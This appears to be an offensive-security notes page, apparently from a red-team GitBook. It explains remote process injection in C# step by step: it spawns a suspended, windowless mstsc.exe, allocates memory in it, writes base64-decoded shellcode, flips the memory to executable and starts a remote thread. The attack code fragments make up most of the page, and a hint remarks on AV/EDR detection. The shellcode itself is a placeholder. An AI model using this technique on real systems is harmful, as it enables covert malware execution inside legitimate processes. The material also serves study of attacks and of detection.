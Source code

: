 # Basic Remote Process Injection API

### Basic Remote Process Injection API

#### Remote Process Injection 

1. **CreateProcess:** spawn a new process
2. **VirtualAllocEx**: allocate memory in the newly created Process. Assigns memory permissions
3. **WriteProcessMemory**: copy the shellcode into the remote process
4. **VirtualProtectEx**: Change memory permissions associated with a range of memory allocated with VirtualAllocEx in a remote process
5. **CreateRemoteThread**: creates a thread which executes the shellcode in the remote process.

## Detect OS Architecture

### Windows locations

![](../../../.gitbook/assets/image%20%28133%29.png)

### IntPtr.Size 

The size of a pointer or handle in this process, measured in bytes. The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process. You can define the process type by setting the `/platform` switch when you compile your code with the C\# and Visual Basic compilers.

#### Code example

We choose a process, check if the arch is x64 or x86 and use the related payload.

```csharp
 {
        string processis64 = "C:\\Windows\\System32\\mstsc.exe";
        string processis32 = "C:\\Windows\\SysWOW64\\mstsc.exe";
        string b4shellcode = "";
        string MyVictimProcess = "";

        if (IntPtr.Size == 4)
        {
            b64shellcode = "<base64 encoded shellcode>";
            MyVictimProcess = processis32;
        }
        else
        {
            b64shellcode = "<base64 encoded shellcode>";
            MyVictimProcess = processis64;
        }

        byte[] DecodedShell = Convert.FromBase64String(b64shellcode);
```

## CreateProcess

![](../../../.gitbook/assets/image%20%28228%29.png)

#### 3 elements require defined structures:

### **STARTUPINFO**

```csharp
public struct STARTUPINFO
{
     public Int32 cb;
     public string lpReserved;
     public string lpDesktop;
     public string lpTitle;
     public Int32 dwX;
     public Int32 dwY;
     public Int32 dwXSize;
     public Int32 dwYSize;
     public Int32 dwXCountChars;
     public Int32 dwYCountChars;
     public Int32 dwFillAttribute;
     public Int32 dwFlags;
     public Int16 wShowWindow;
     public Int16 cbReserved2;
     public IntPtr lpReserved2;
     public IntPtr hStdInput;
     public IntPtr hStdOutput;
     public IntPtr hStdError;
}

```

### **PROCESS\_INFORMATION**

```csharp
public struct PROCESS_INFORMATION
{
   public IntPtr hProcess;
   public IntPtr hThread;
   public int dwProcessId;
   public int dwThreadId;
}
```

### **dwCreationFlags**

![](../../../.gitbook/assets/image%20%2811%29.png)

### CreateProcess summary

```csharp
STARTUPINFO STinfo = new STARTUPINFO();

PROCESS_INFORMATION PR_info = new PROCESS_INFORMATION();

bool polo = CreateProcess(<Process_NAME>, null, IntPtr.Zero, IntPtr.Zero, false, ProcessCreationFlags.CREATE_SUSPENDED | ProcessCreationFlags.CREATE_NO_WINDOW , IntPtr.Zero, null, ref STinfo, out PR_info );
```

Process name = process name

null = process args

IntPtr.Zero = No process Attributs needed

IntPtr.Zero = No process Attributs needed

false = No Thread attributes handles

ProcessCreationFalgs = CREATE\_NO_\__WINDOW

IntPtr.Zero = No env block

null = Not modification for the current working directory

ref STinfo = ref to the startup struct

out PRinfo = variable which contains the output \(PROCESS\_INFORMATION format\)

## **VirtualAllocEx**

![](../../../.gitbook/assets/image%20%28247%29.png)

```csharp
 private static UInt32 MEM_COMMIT = 0x1000;
 private static UInt32 PAGE_EXECUTE_READ = 0x20;
 private static UInt32 PAGE_READWRITE = 0x04;
```

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPrt lpAddress = Let the function determine where to allocate the memory
* uint dwSize = shellcode size 
* AllocationType flAllocationType = Constant for allocation type \(MEM\_COMMIT\)
* MemoryProtection = Set permission \(PAGE\_READWRITE, ie RW\)

```csharp
byte[] DecodedShell = Convert.FromBase64String(b64shellcode);
IntPtr VirtAEx_result = VirtualAllocEx(PR_info.hProcess, IntPtr.Zero, DecodedShell.Length, MEM_COMMIT, PAGE_READWRITE);

```

## WriteProcessMemory

![](../../../.gitbook/assets/image%20%28245%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpBaseAddress = result of VirtualAllocEx, ie VirtualAEx\_result
* byte\[\] lpBuffer = shellcode
* nSize = shellcode Length
* Out InPtr = not important, put whatever here

```csharp
bool WrProcess_result = WriteProcessMemory(PR_info.hProcess,VirtAEx_result,DecodedShell,DecodedShell.Length, out whatever);
```

## VirtualProtectEx

![](../../../.gitbook/assets/image%20%28125%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpBaseAddress = result of VirtualAllocEx, ie VirtualAEx\_result
* UIntPtr dwSize = shellcode Length
* uint flNewProtect = set permission \(PAGE\_EXECUTE\_READ \) 
* Out uint lpfloldProtect = not important, put whatever here

```csharp
VirtProcte_result = VirtualProtectEx(PR_info.hProcess, VirtAEx_result, DecodedShell.Length, PAGE_EXECUTE_READ, out whatever2 );
```

## CreateRemoteThread

![](../../../.gitbook/assets/image%20%28252%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpThreadAttributes = IntPtr.zero \(defaut security descriptors\)
* uint dwStackSize = 0 \(no stack size spec\)
* IntPtr lpStartAddress = result of VirtualAllocEx
* IntPtr lpParameter = IntPtr.Zero, no variable specification
* uint dwCreationFlags = 0, run the thread immediately
* out IntPtr lpThreadId = IntPtr.Zero \(no need for thread id\)

```csharp
CreateRemoteThread(PR_info.hProcess, IntPtr.Zero, 0, VirtAEx_result, IntPtr.Zero, 0, IntPtr.Zero);
```

{% hint style="warning" %}
CreateRemoteThread is flagged by AV/EDR products :\)
{% endhint %}

## Resources

{% embed url="http://www.pinvoke.net/index.aspx" %}

